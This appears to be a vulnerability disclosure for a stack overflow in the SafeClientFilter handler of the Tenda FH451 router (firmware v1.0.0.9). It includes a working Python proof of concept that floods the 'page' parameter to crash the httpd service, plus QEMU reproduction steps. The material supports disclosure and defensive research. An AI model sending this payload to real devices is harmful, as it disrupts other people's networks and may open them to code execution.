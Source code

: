# Stack Overflow Vulnerability in Tenda FH451 Router (v1.0.0.9) – SafeClientFilter Component
**Vendor**: Shenzhen Jixiang Tenda Technology Co., Ltd.
**Affected Firmware**: [Download Link](https://tenda.com.cn/material/show/101629)
**Vulnerability URL**: `http://192.168.200.1:80/goform/SafeClientFilter`
**Vulnerability File**: `/bin/httpd`

## Vulnerability Description

Through code auditing, a critical security risk has been identified in the `SafeClientFilter` routing function (Line 35) . 

![image-20250522110500362](../The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110500362.png)

Specifically, the program retrieves the input parameter "page" but lacks proper validation for its numerical range (Line 39).

![image-20250522110316779](../The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110316779.png)

Cross-referenced to the function `sub_64EAC`, with attention to lines 44 and 47.

![image-20250522110610289](../The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110610289.png)

The path of the webpage where the vulnerability occurs is known to be `goform/SafeClientFilter`.

## PoC 

```python
import requests

url = "http://192.168.200.1:80/goform/SafeClientFilter"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

## Reproduction Steps

**1. Environment Setup**:
Simulate the router firmware using QEMU

!![image-20250522110739954](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110739954.png)

**2. Router Initialization**:
Ensure the router is running and accessible via `http://192.168.200.1`.

![image-20250522110755361](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110755361.png)

**3. Exploit Execution**:
Run the PoC script. The router will crash, rendering the web interface inaccessible.



![image-20250522110943875](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522110943875.png)

![image-20250522111000926](./The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability.assets/image-20250522111000926.png)



The router has crashed, and the web interface is also inaccessible.

## Impact 

Remote attackers can exploit this vulnerability to crash the router (`httpd` process) or potentially execute arbitrary code.
